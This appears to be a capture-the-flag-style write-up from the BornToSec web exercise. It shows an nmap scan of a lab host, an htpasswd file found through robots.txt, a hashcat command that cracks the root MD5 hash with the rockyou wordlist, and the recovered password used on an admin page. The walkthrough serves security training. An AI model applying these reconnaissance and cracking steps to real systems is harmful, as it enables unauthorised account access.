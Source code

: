 # Htpasswd Based Authentication

An htpasswd file is a txt file that contains credentials of users (for authentication).
It could contains sensitive informations (encrypted or not).

<!-- Depends on network -->
nmap -v -A -T4 192.168.56.103

We find 2 directories:
```shell
	PORT   STATE SERVICE VERSION
	80/tcp open  http    nginx 1.4.6 (Ubuntu)
	|_http-favicon: Unknown favicon MD5: E7D08792AE6EC9DBBF3CEBFB48EE4057
	| http-methods:
	|_  Supported Methods: GET HEAD POST
	| http-robots.txt: 2 disallowed entries
	|_/whatever /.hidden
	|_http-server-header: nginx/1.4.6 (Ubuntu)
	|_http-title: BornToSec - Web Section
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
In whatever there is a htpasswd file that contain:
root:437394baff5aa33daa618be47b75cb49

It looks like MD5, we can try to bruteforce it with hashcat and rockyou:
```shell
hashcat -m 0 -a 0 hash /<PATH>/rockyou.txt --force
```
We find:
437394baff5aa33daa618be47b75cb49:qwerty123@
We can't connect to this in login page but there is an admin connect page

## External Resources

https://httpd.apache.org/docs/2.4/fr/programs/htpasswd.html
https://defendtheweb.net/discussion/1159-bypassing-htaccesshtpasswd-based-authentication
